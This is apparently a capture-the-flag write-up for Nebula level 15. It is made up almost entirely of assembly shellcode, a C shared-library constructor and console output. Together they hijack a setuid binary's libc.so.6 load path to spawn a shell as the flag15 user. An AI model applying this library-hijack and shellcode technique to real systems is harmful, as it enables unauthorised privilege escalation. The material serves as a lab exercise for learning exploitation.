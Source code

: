 {% codeblock lang:asm shell.asm %}
section .data
cmd db '/bin/sh',0x0

section .text

global shell

shell:

;setreuid(geteuid(),geteuid());
mov eax, 49
int 0x80
mov ebx, eax
mov ecx, eax
mov eax, 70
int 0x80

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
mov eax, 11
lea ebx, [cmd]
mov ecx, 0
push ecx
push ebx
mov ecx, esp
mov edx, 0
int 0x80
{% endcodeblock %}

{% codeblock lang:c run-shell.c %}
void shell(void);
void __attribute__((constructor)) init()
{
  shell();
}
{% endcodeblock %}

{% codeblock lang:console %}
level15@nebula:/tmp$ /tmp/nasm-2.11.08/nasm -f elf shell.asm

level15@nebula:/tmp$ gcc -shared -nostdlib run-shell.c shell.o -o /var/tmp/flag15/libc.so.6 

level15@nebula:/tmp$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)

sh-4.2$ id
uid=984(flag15) gid=1016(level15) groups=984(flag15),1016(level15)

sh-4.2$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

